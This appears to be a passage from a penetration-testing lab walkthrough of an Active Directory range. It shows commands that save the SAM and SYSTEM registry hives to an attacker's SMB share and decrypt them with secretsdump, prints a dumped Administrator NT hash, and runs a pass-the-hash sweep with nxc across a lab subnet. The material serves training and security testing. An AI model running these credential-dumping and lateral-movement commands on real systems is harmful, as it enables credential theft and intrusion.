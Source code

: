 - We dumped the sam database with secretsdump but we can also do that with the following commands :
```
impacket-smbserver -smb2support share . # start a server to get the result
impacket-reg NORTH/jeor.mormont:'_L0ngCl@w_'@192.168.56.22 save -keyName 'HKLM\SAM' -o '\\192.168.56.118\share'
impacket-reg NORTH/jeor.mormont:'_L0ngCl@w_'@192.168.56.22 save -keyName 'HKLM\SYSTEM' -o '\\192.168.56.118\share'
```

    
- Or directly on our windows shell:
    
    ```cmd
    reg save HKLM\SAM c:\sam
    reg save HKLM\SYSTEM c:\system
    ```
    

> With SAM and SYSTEM we get the contains of the LM and NT hashs stored in the sam database.

> The SAM database contains all the local accounts

- secretsdump got a command to decrypt the sam contains with the files we download :

```
impacket-secretsdump -sam SAM.save -system SYSTEM.save LOCAL
```

- The result is in the following format:
```
<Username>:<User ID>:<LM hash>:<NT hash>:<Comment>:<Home Dir>:
```


- In our result we have :

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:dbd13e1c4e338284ac4e9874f7de6ef4:::
user: Administrator
RID : 500
LM hash : aad3b435b51404eeaad3b435b51404ee (this hash value means empty)
NT hash : dbd13e1c4e338284ac4e9874f7de6ef4 (this is the important result here)
```

- Wes have the NT hash of the administrator account, so we could try lateral move with it !

### Password reuse and PTH attack

- On a pentest when you compromised a first target on an active directory system you should always try if the local accounts are the same on all the servers.
- Almost all the time when clients are not mature in security they duplicate the same image to build all servers. By doing this, they also replicate the same administrator account and password.
- By doing so there is password reuse everywhere in the network (if you want to avoid that you should use laps)
- One of the best way to abuse the password reuse is by using a Pass The Hash (PTH) attack in all the network with CrackMapExec.
```
nxc smb 192.168.56.10-23 -u Administrator -H 'dbd13e1c4e338284ac4e9874f7de6ef4' --local-auth
```
![screenshot](pics/nxc_pth.png)
